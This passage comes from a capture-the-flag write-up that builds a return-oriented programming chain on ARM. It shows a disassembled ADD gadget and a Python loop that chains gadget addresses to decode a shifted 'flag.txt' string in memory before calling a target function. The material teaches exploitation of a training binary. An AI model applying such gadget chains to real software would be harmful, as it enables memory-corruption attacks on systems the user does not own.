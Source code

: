 


 The **STORE GADGET** also pops into **R5** and **R6** which will be used by the **ADD GADGET**. Thus, when storing the flag in data section we already pop the right values (**datasection_addr** and **0x1** since our encoded flag was shifted by one as described earlier).



Ok, so we're done with first step. Now we need to decode this string back to its original form before calling our function

- [x] Write the encoded string into memory
- [ ] Decode the encoded string
- [ ] Call our **usefulFunction** with the decoded string to get our flag



## The ADD Gadget



Now that our encoded string is inside the data section we can use the **ADD GADGET** to decode it:

```assembly

   0x00010600 <+16>:    ldr    r1, [r5]
   0x00010604 <+20>:    add    r1, r1, r6
   0x00010608 <+24>:    str    r1, [r5]
   0x0001060c <+28>:    pop    {r0, pc}
```



For this gadget to work we need to store the data section address into **R5** and 0x1 into **R6**, that way it'll shift the string **ek`f-sws** back to **flag.txt**.

This has been done already in the previous step when setting up the **STORE GADGET**. However this gadget will only decode one byte at a time, so we can use the following snipet to decoded the whole string:



```python
add_xploit = b""
for i in range(len(encoded_flag)):
   add_xploit += pop_r5_r6_gadget
   add_xploit += p32(datasection_addr + i)
   add_xploit += p32(0x1) # shift back
   add_xploit += add_gadget
   add_xploit += p32(datasection_addr)
```



Nice, now we just need to call **usefulFunction** to get our flag.



- [x] Write the encoded string into memory
- [x] Decode the encoded string
- [ ] Call our **usefulFunction** with the decoded string to get our flag
